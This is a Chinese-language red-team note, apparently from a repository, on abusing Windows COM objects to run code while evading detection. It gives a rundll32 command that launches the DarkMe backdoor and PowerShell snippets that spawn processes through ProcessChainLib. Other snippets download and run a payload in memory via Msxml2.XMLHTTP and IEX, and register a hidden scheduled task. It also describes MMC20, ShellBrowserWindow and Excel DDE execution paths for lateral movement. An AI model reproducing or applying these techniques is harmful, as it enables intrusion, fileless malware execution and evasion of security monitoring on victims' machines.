





> 关于CLSID的利用，抄袭https://blog.51cto.com/u_15127538/2706618.
>
> https://www.group-ib.com/blog/cve-2023-38831-winrar-zero-day/

启动 **DarkMe** backdoor ：

```
 rundll32.exe /sta {EA6FC2FF-7AE6-4534-9495-F688FEC7858C} 
```


## COM  （Component Object Model）  

面向对象的编程模型，定义组件及其接口，让接口和实现分离， 组件信息通常存储在Windows注册表中 。

COM是在1990年代创建的，作为独立于语言的二进制互相操作性标准，COM使得单独的代码模块能够相互交互。这样一来，就可以在单个进程或跨进程中实现，为分布式COM（DCOM）添加序列化，允许通过网络进行远程过程调用（Remote Procedure Call）。

1.CLSID 类标识符

2.IID 接口标识符

3.组件的文件路径

可以使用oleview.exe查看。

## 几个有趣的COM对象

可以允许任务调度、无文件下载并执行、命令执行。尽管这些对象本身不是安全漏洞，但可以使用这些对象基于进程行为和启发式特征来对抗检测。

注册表项`HKEY_CLASSES_ROOT\CLSID`将公开枚举COM对象所需的所有信息，包括CLSID和ProgID。CLSID是与COM类对象关联的全局唯一标识符。ProgID是一个对开发者非常友好的字符串，表示底层的CLSID。

使用下面的PowerShell命令来获取CLSID列表。

```
列举HKCR下的CLSID：

New-PSDrive -PSProvider registry -Root HKEY_CLASSES_ROOT -Name HKCR
Get-ChildItem -Path HKCR:\CLSID -Name  | Select -Skip 1 > clsids.txt
```
### 获取所有CLSID公开的方法和属性

```
用于枚举可用方法和属性的PowerShell Scriptlet：
得等待一会，因为有7356个条目要被执行

$Position = 1  
$Filename = "win10-clsid-members.txt"  
$inputFilename = "clsids.txt"  
ForEach($CLSID in Get-Content $inputFilename) {
	Write-Output "$($Position) - $($CLSID)"
	Write-Output "------------------------" | Out-File $Filename -Append
	Write-Output $($CLSID) | Out-File $Filename -Append 
	$handle = [activator]::CreateInstance([type]::GetTypeFromCLSID($CLSID))
	$handle | Get-Member | Out-File $Filename -Append
	$Position += 1  
}

```

非Microsoft的COM对象通常会被省略，因为它们不能可靠地存在于目标及其上，这限制了这些对象在红蓝对抗实际蓝军***中的可用性。为了定位开发人员的计算机，我们在此项研究中涵盖了Windows SDK中的特定Microsoft COM对象。

在获得成员后，使用基于关键字的搜索方法快速得到结果。在我们的研究中，使用了以下关键字：execute（执行）、exec（执行）、spawn（派生）、launch（执行）和run（运行）。

## 启动进程

可以启动命令，如下所示。

使用ProcessChainLib COM服务器启动进程：

```ps1
$handle = [activator]::CreateInstance([type]::GetTypeFromCLSID("E430E93D-09A9-4DC5-80E3-CBB2FB9AF28E"))

$handle.CommandLine = "cmd /c whoami"

$handle.Start([ref]$True)
```

## 无文件下载和执行

COM对象{F5078F35-C551-11D3-89B9-0000F81FE221}（Msxml2.XMLHTTP.3.0）公开了一个XML HTTP 3.0功能，该功能可用于下载任意代码并执行，无需将Payload写入磁盘，并且不会触发寻找常用System.Net.WebClient的规则。XML HTTP 3.0对象通常用于执行AJAX请求。在这种情况下，可以使用Invoke-Expression Cmdlet（IEX）直接执行获取的数据。

下面的示例展示了本地执行代码的过程。

不包含System.Net.WebClient的无文件下载：

```
$o = [activator]::CreateInstance([type]::GetTypeFromCLSID("F5078F35-C551-11D3-89B9-0000F81FE221"));
$o.Open("GET", "http://127.0.0.1/payload", $False);
$o.Send(); IEX $o.responseText;
```

### 任务调度

另一个例子是{0F87369F-A4E5-4CFC-BD3E-73E6154572DD}，它实现了用于操作Windows任务调度程序服务的Schedule.Service类。该COM对象允许特权用户在不使用schtasks.exe二进制文件或at命令的情况下，在主机（包括远程主机）上执行计划任务。

```
$TaskName = [Guid]::NewGuid().ToString()

$Instance = [activator]::CreateInstance([type]::GetTypeFromProgID("Schedule.Service"))

$Instance.Connect()

$Folder = $Instance.GetFolder("\")

$Task = $Instance.NewTask(0)

$Trigger = $Task.triggers.Create(0)

$Trigger.StartBoundary = Convert-Date -Date ((Get-Date).addSeconds($Delay))

$Trigger.EndBoundary = Convert-Date -Date ((Get-Date).addSeconds($Delay   120))

$Trigger.ExecutionTimelimit = "PT5M"

$Trigger.Enabled = $True

$Trigger.Id = $Taskname

$Action = $Task.Actions.Create(0)

$Action.Path = “cmd.exe”

$Action.Arguments = “/c whoami”

$Action.HideAppWindow = $True

$Folder.RegisterTaskDefinition($TaskName, $Task, 6, "", "", 3)

 

function Convert-Date {      

 

        param(

             [datetime]$Date

 

        )      

 

        PROCESS {

               $Date.Touniversaltime().tostring("u") -replace " ","T"

        }

}
```


## COM对象枚举：递归COM对象

每个对象都可能会返回无法直接创建的其他对象。在这里，引入的更改以递归方式搜索COM对象，这些对象仅通过每个枚举OCM对象的成员方法和属性公开。在原始方法中，查看了每个对象直接公开的方法，并没有递归到任何属性，这些属性也可能是自身具有值得关注的方法的COM对象，可以找到调用公开代码执行COM对象方法的新方法。

### 例子1

目前公开的所有使用COM对象执行代码的技术，发现它们之间具有一个共同点，就是都利用了在COM对象的子属性中公开的方法。一个例子是“MMC20.Application”COM对象。要利用此COM对象实现代码执行，我们需要在“Document.ActiveView”属性返回的View对象上使用“ExecuteShellCommand”方法，正如Matt Nelson在博客文章上所写的那样。在下图中，我们可以看到该方法只能在“Document.ActiveView”返回的对象中被发现，并且不会被MMC20.Application COM对象直接暴露。

列出MMC20.Application COM对象中的ExecuteShellCommand方法：



### 例子2

另一个例子是“ShellBrowserWindow”COM对象，这也是由Matt Nelson在博客文章中首次撰写的。如下图所示，“ShellExecute”方法没有直接暴露在COM对象中。但是，“Document.Application”属性返回Shell对象的实例，该实例公开ShellExecute方法。

在ShellBrowserWindow COM对象中列出ExecuteShellCommand方法：



作为前两个示例的证据，重要的是不仅要查看COM对象直接公开的方法，还要递归查找具有作为COM对象属性公开的可用方法的对象。这个示例说明了为什么仅仅静态探索COM对象的类型库可能是不够的，只有在动态枚举泛型类型IDispatch的对象后才能访问相关函数。这种递归的方法可以实现查找用于代码执行的新COM对象，以及使用可用于代码执行的公开COM对象的不同方法。

使用这种递归方法，如何找到一种调用公开COM对象方法的新途径呢？我们可以参考“ShellBrowserWindow”COM对象中的“ShellExecute”方法。该方法在本文前面已经详细说明过。以前，众所周知，在“ShellBrowserWindow”COM对象中调用此方法的方式是使用“Document.Application”属性。通过递归COM对象方法，我们发现，还可以对“Document.Application.Parent”属性返回的对象调用“ShellExecute”方法，如下图所示。可以逃避检测。

### 例子3

使用ShellBrowserWindow COM对象调用ShellExecute的替代方法：



## 命令执行

使用这种递归COM对象方法进行探索后，我们能够找到一个ProgID为“Excel.ChartApplication”的COM对象，该对象可用于使用DDEInitiate方法执行代码。这种启动可执行文件的DDEInitiate方法首先在“Excel.Application”COM对象中被滥用，如Cybereason所写的文章所示。“Excel.ChartApplication”COM对象中有多个属性，它们返回可用于执行DDEInitiate方法的对象，如下图所示。尽管这个DDEInitiate方法也是由COM对象直接公开的，但它是在最初的探索过程中被发现的，是在可以从此对象访问的其他对象中公开的方法。

使用Excel.ChartApplication COM对象调用DDEInitiate的3种方法：



该COM对象也可以实例化，并远程用于Office 2013，如下图所示。COM对象只能在Office 2016中本地实例化。当尝试远程实例化Office 2016时，将会返回错误代码，表示COM对象类未注册远程实例化。

使用Excel.ChartApplication远程***Office 2013：




## 总结

COM对象非常强大，功能多样，并且与Windows集成，这也就意味着COM对象几乎总是可用的。COM对象可以用于打破不同的检测模式，包括命令行参数、PowerShell日志记录和启发式检测。COM对象方法的递归搜索，可以帮助我们发现可用于代码执行的新COM对象，以及调用众所周知COM对象方法的新思路。这些COM对象方法可用于打破不同的检测模式，也可以用于横向移动。